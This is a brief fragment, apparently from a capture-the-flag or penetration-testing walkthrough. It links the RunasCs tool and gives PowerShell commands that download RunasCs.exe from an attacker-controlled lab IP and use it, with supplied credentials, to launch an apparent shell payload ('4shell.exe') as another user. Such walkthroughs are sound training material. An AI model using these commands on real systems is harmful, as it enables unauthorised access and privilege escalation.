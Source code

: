 https://github.com/antonioCoco/RunasCs

```
Invoke-WebRequest -Uri http://10.10.14.127:8000/RunasCs.exe -OutFile RunasCs.exe

.\RunasCs.exe username "password" .\4shell.exe
```